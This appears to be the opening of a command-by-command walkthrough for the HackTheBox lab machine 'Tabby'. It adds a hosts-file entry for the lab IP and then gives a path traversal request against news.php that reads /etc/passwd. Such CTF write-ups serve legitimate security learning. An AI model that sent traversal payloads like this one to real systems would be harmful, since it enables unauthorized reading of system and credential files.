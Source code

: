 # Tabby CMD-by-CMDs

```bash
sed -i 's///g' *-CMD-by-CMDs.md
```

```bash
echo "10.10.10.194 megahosting.htb" | sudo tee -a /etc/hosts

http://megahosting.htb/news.php?file=../../../../etc/passwd

```


